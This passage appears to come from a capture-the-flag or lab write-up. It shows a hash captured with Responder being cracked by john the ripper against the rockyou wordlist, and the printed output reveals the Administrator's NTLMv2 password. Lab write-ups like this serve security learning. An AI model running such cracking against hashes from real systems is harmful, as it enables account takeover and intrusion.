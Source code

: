 ![resp.py](images/resp.py.png#center)

We just need to crack it.

### john the ripper
`john` (john the ripper) is one commonly used hash cracking tools. Let's copy this hash from `Responder` and throw it into a text file such as `hashed.txt`. Let `john` do the rest:

```shell {linenos=false}
$ john -w=/usr/share/wordlists/rockyou.txt hashed.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-10-25 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
